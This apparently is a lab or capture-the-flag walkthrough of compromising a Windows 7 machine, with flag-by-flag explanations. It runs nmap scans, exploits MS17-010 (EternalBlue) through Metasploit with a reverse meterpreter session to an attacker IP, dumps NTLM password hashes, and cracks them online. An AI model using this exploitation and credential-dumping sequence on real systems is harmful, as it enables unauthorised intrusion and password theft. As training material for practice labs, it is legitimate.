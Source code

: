 <hr style="border-color:red;"><h1 align="center"><img src="https://github.com/user-attachments/assets/db0ff09d-a6b7-4b03-8f93-1c1827dc7867"></h1>

<hr style="border-color:red;"><h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1><hr style="border-color:red;">

### **- Verifying the connectivity of the discovered device:**

```bash
ping -c 1 10.10.12.63
```
```bash
ping
The ping command is used to check network connectivity between your machine and another device by sending ICMP (Internet Control Message Protocol) echo request packets.
-c 1
The -c flag specifies the number of echo request packets to send. In this case, -c 1 means only one packet will be sent.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7b3d2ea0-61a7-4511-8088-dea75395c71a"></picture><br>TTL = 127 ==> WINDOWS</h3><hr style="border-color:red;">

### **- Scanning of the discovered device to find all open ports to find possible access routes:**

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.12.63 -oG allPorts
```
```
-p-
This tells Nmap to scan all 65535 TCP ports (from 0 to 65535). By default, Nmap only scans the most common 1,000 ports.

--open
This filters the results to only show open ports, ignoring closed or filtered ports.

-sS
This specifies a SYN scan (also called a half-open scan or stealth scan).
Instead of fully establishing a TCP connection, Nmap sends an SYN packet and waits for a response.
If the target responds with SYN-ACK, it means the port is open.
If the target responds with RST, the port is closed.
If no response or an ICMP error is received, the port may be filtered (firewall blocking it).

--min-rate 5000
This forces Nmap to send at least 5000 packets per second, making the scan faster.
Without this, Nmap adjusts the speed automatically based on network conditions.

-vvv
This increases verbosity level (very very verbose).
It provides real-time feedback while scanning.
You will see results as they are discovered instead of waiting for the full scan to complete.

-n
This disables DNS resolution, making the scan faster.
By default, Nmap tries to resolve IPs to hostnames, which can slow down the scan.

-Pn
This tells Nmap to skip the host discovery phase and assume the target is up.
Normally, Nmap pings the target first to check if it is online.
If a firewall is blocking pings, this option is useful to force a scan even if the target doesn’t respond to pings.

-oG allPorts
This tells Nmap to output the results in "Grepable" format and save them in a file called allPorts.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/14e953a0-650c-4e09-9532-d084c7761ce7"></picture><br>Accessible ports 135,139,445,3389,49452,49152,49154,49158,49160</h3><hr style="border-color:red;">

### **- Analysis of the open ports found on the discovered device to get more information on the services running on those ports:**

```bash
nmap -sCV -p135,139,445,3389,49452,49152,49154,49158,49160 10.10.12.63 -oN targeted
```
```
-sC
Enables Nmap’s default script scanning.
This runs a set of default scripts to gather more information about detected services.
Scripts can detect vulnerabilities, enumerate software versions, and check for misconfigurations.
Equivalent to --script=default.

-sV
Performs version detection of services.
It tries to determine the exact software version running on open ports.

-p
This makes the scan faster and more targeted instead of scanning all ports.

-oN targeted
Saves the output in normal format to a file named targeted.
You can later review this file for findings.
```
<h3 align="center"><picture><img src="https://github.com/user-attachments/assets/67ace266-1259-4839-b491-fac72e358c27"></picture><br>445/tcp   open   microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) "could be vulnerable to EternalBlue"</h3><hr style="border-color:red;">

### **- Looking for vulnerabilities with nmap:**
```bash
nmap --script "vuln and safe" -p445 10.10.12.63
```
```
--script "vuln and safe" → Runs Nmap scripts that belong to both the vuln (vulnerability detection) and safe (non-destructive) categories.

-p445 → Specifies scanning only port 445 (SMB/Windows file sharing).
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/e1883661-9019-48d0-a24f-718440cc2987"></picture><br>We found ms17-010 Vulnerability</h3><hr style="border-color:red;">

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

### **Scanning ms17-010 whit METASPLOIT for possible vulnerabilities**
```bash
msfdb init && msfconsole
```
```
msfdb init (Initialize Metasploit Database)
msfconsole (Launch Metasploit Console)
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/d30ca4a3-673b-4644-8057-70dce9a04494"></picture><br>In here we will look for a vulnerability for ms17-010</h3>

```bash
search ms17-010
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/7d22d9ff-cf8f-49ec-a4b4-bdd612605964"></picture><br>As we thought it was an eternalblue.</h3>


### **- We will configure our sploit to gain access to the victim machine:**

```bash
use 0
show options
```

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/eb010bfc-605e-4753-9bdc-a5a44c50d0ae"></picture><br>The sploit is asking us to enter information about the victim and attacker ip since the ports are automatically assigned.</h3>

### **- We assign the information you require:**
```bash
set RHOSTS 10.10.12.63
set LHOST 10.21.118.81
run
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/a0d1071b-0d56-46bc-87eb-4b67fea89c95"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/1573f02f-7934-4fb1-b381-a901d02f1926"></picture><br>we already have a session by meterpreter like user System.</h3>

### **- e search for all hashes in the system**
```bash
hashdump
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/82b66b35-dfed-4191-98f1-55ea6c1968b6></picture><br>Using the web https://crackstation.net/ we will break these hashes</h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/739058b1-6131-4368-81e1-c3f7d3760145"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/9d38f110-d603-4b26-947d-5af09520ff2f"></picture><br></h3>
